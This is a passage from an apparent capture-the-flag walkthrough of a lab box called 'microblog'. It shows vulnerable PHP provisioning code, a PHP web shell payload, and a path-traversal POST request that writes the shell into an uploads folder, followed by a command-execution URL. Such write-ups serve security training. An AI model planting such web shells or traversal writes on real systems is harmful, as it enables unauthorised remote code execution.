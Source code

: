 
There is no protection against the file type we could send. We can notice the folder `uploads`, that is dynamically created by the application when we activated the "pro" option :

```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```

Being a pro user, a folder named “uploads” is created with read/write/execute access rights (chmod 700).

## Initial access

### Exploitation

Since we already have the ability to write a file (when adding text), we can reuse this to write a PHP file on target host, that will give a remote control.

The target full directory name would be : `/var/www/microblog/john`

And the target shell file: `/var/www/microblog/john/shell.php`

We can use [https://www.revshells.com/](https://www.revshells.com/) to generate a payload. Let's generate a really simple command execution to test: "PHP cmd 2"

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

We need to URL encode this payload in order to send it as a parameter :

```text
POST /edit/index.php HTTP/1.1
Host: john.microblog.htb
...

id=../../../../../../../var/www/microblog/john/uploads/shell.php&txt=<%3fphp+if(isset($_REQUEST['cmd'])){+echo+"<pre>"%3b+$cmd+%3d+($_REQUEST['cmd'])%3b+system($cmd)%3b+echo+"</pre>"%3b+die%3b+}%3f>
```

Then, can call the shell and execute a simple command :

[http://john.microblog.htb/uploads/shell.php?cmd=whoami](http://john.microblog.htb/uploads/shell.php?cmd=whoami)
